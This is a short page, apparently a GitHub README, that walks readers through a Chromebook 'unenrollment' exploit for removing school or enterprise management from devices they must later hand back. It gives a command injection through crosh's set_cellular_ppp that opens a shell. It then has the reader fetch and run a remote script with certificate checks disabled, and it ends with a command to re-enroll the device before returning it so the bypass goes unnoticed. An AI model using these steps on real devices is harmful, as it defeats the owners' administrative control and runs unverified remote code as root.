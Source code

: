 **Uninrollment for Chromebook**

In order for this exploit to work you will need to downgrade to EXACTLY version 91. Downgrade instructions can be found here

This method requires crosh to be unblocked on your chromebook. Crosh can be opened with CTRL+ALT+T If it's blocked by an extension, you can disable it with LTBEEF v91 WILL NOT WORK ON GRUNT BOARDS OR ARM CHROMEBOOKS MAKE SURE YOU HAVE EXACTLY VERSION 91.0.4472.102, NOT VERSION 91.0.4472.167 STEPS: Open crosh (ctrl + alt + t) Type in set_cellular_ppp ';bash;exit;' and enter Type in bash <(curl -k https://coolelectronics.me/unroll) and enter Wait for the script to finish, then powerwash your chromebook

Steps to Re-Enroll when you turn your chromebook back in at the end of the year:

Enable Devmode (ESC+Power+Reload, ctrl d and enter on recovery screen) Once in chrome, Open crosh (ctrl + alt + t) Type in shell Type in sudo vpd -i RW_VPD -s check_enrollment=1 Powerwash again

Site made by CoolElectronics#4683 UNROLL (U Need Root LoL) acroynm by ULTRA BLUE#1850 and zuh#6098 justinchrm#3399 helped with testing Shroot™ name by phennen#9801 shroot80 script created by OlyB#9420 Kiosk Exploit found by Divide/B3AT Root exploits originally found by Rory McNamara
